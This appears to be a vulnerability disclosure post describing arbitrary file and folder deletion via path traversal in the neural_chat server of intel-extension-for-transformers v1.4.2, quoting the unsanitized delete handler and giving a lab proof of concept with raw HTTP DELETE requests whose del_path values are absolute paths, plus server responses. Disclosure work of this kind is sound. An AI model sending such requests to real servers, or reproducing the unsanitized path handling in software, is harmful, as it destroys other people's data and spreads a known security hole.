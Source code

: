 ```yaml
---
layout: post
title:  "Arbitrary File Deletion via Path Traversal in intel-extension-for-transformers neural_chat"
date:  2024-05-27 10:31:06 +0800
categories: file-deletion
---
```


## Name

> Arbitrary File Deletion via Path Traversal in intel-extension-for-transformers neural_chat


## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)

## Version

> v1.4.2

## Description

The post route [`/v1/askdoc/delete_file`](https://github.com/intel/intel-extension-for-transformers/blob/5e5e17c272857a078540dbdbdf834e65b0d92a0e/intel_extension_for_transformers/neural_chat/server/restful/retrieval_api.py#L598) endpoint in intel-extension-for-transformers [neural_chat](https://github.com/intel/intel-extension-for-transformers/tree/main/intel_extension_for_transformers/neural_chat#introduction) is vulnerable to a path traversal vulnerability through the `del_path` parameter which allows the deletion of arbitrary file. The `del_path` is directly append to a directory path [without sanitization](https://github.com/intel/intel-extension-for-transformers/blob/5e5e17c272857a078540dbdbdf834e65b0d92a0e/intel_extension_for_transformers/neural_chat/server/restful/retrieval_api.py#L621) and then the file is deleted. An attacker can delete files behalf of current process.

The vulnerable function [`retrieval_add_files`](https://github.com/intel/intel-extension-for-transformers/blob/5e5e17c272857a078540dbdbdf834e65b0d92a0e/intel_extension_for_transformers/neural_chat/server/restful/retrieval_api.py#L296C11-L296C30):

```
@router.delete("/v1/askdoc/delete_file")
async def delete_single_file(request: Request):
    """Delete file according to `del_path` and `knowledge_base_id`.

    `del_path`:
        - specific file path(e.g. /path/to/file.txt)
        - folder path(e.g. /path/to/folder)
        - "all_files": delete all files of this knowledge base
    """
    params = await request.json()
    del_path = params['del_path']
    ...
    # partially delete files/folders from the kb
    if delete_path.exists():
        # delete file
        if delete_path.is_file():
            try:
                delete_path.unlink()
            except Exception as e:
                logger.info(f"[askdoc - delete_file] fail to delete file {delete_path}: {e}")
                raise HTTPException(
                    status_code=500,
                    detail=f'Failed to delete file {delete_path}. Exception: {e}'
                )
        # delete folder
        else:
            try:
                shutil.rmtree(delete_path)
            except Exception as e:
                logger.info(f"[askdoc - delete_file] fail to delete folder {delete_path}: {e}")
                raise HTTPException(
                    status_code=500,
                    detail=f'Failed to delete folder {delete_path}. Exception: {e}'
                )
        return {"status": True}
    else:
        raise HTTPException(status_code=404, detail="File/folder not found. Please check del_path.")
```

## Proof of Concept

First, we create a test file at `/home/kali/test.txt`:

```
kali@fc7d9ff6a411:/# touch /home/kali/test.txt
kali@fc7d9ff6a411:/# ls /home/kali/test.txt
-rw-r--r-- 1 kali kali 0 May 27 16:29 /home/kali/test.txt
```

Then we start a default neural_chat server following tutorial from [https://github.com/intel/intel-extension-for-transformers/blob/main/intel_extension_for_transformers/neural_chat/README.md#installation](https://github.com/intel/intel-extension-for-transformers/blob/main/intel_extension_for_transformers/neural_chat/README.md#installation):

```
# Install system requirements
sudo apt-get update
sudo apt-get install -y python3-pip
sudo apt-get install -y libgl1-mesa-glx

# clone the project
git clone https://github.com/intel/intel-extension-for-transformers.git
cd intel-extension-for-transformers/intel_extension_for_transformers/neural_chat/

# Install python requirements
pip install -r requirements_cpu.txt
pip install fastapi==0.103.2
pip install intel-extension-for-transformers
```

Start neural_chat server, the service is open at `0.0.0.0:8000`

```
# start neural_chat server, it will download model from internet for first time, be patient.
neuralchat_server start --config_file ./server/config/neuralchat.yaml
```

Send follow post request to the server using burpsuite to delete single file:

```
DELETE http://10.15.0.5:8000/v1/askdoc/delete_file HTTP/1.1
Host: 10.15.0.5:8000
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
content-type: application/json
Cookie: 
Connection: close
Content-Length: 89

{"del_path":"/home/kali/test.txt","knowledge_base_id":"123"}
```

The response indicates the file is deleted.

```
HTTP/1.1 200 OK
Content-Length: 15
Connection: keep-alive
Content-Type: application/json
Date: Mon, 27 May 2024 06:26:58 GMT
Keep-Alive: timeout=4
Proxy-Connection: keep-alive
Server: uvicorn

{"status":true}
```

We can verify the the file is deleted using following command:

```
kali@fc7d9ff6a411:/# ls /home/kali/test.txt
ls: cannot access '/home/kali/test.txt': No such file or directory
```

Delete a folder using following command:

```
DELETE http://10.15.0.5:8000/v1/askdoc/delete_file HTTP/1.1
Host: 10.15.0.5:8000
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
content-type: application/json
Cookie: 
Connection: close
Content-Length: 89

{"del_path":"/home/kali/test-folder","knowledge_base_id":"123"}
```

## Impact

This vulnerability can delete any files and folders the service process could access.


## Occurrences

[https://github.com/intel/intel-extension-for-transformers/blob/5e5e17c272857a078540dbdbdf834e65b0d92a0e/intel_extension_for_transformers/neural_chat/server/restful/retrieval_api.py#L621](https://github.com/intel/intel-extension-for-transformers/blob/5e5e17c272857a078540dbdbdf834e65b0d92a0e/intel_extension_for_transformers/neural_chat/server/restful/retrieval_api.py#L621)

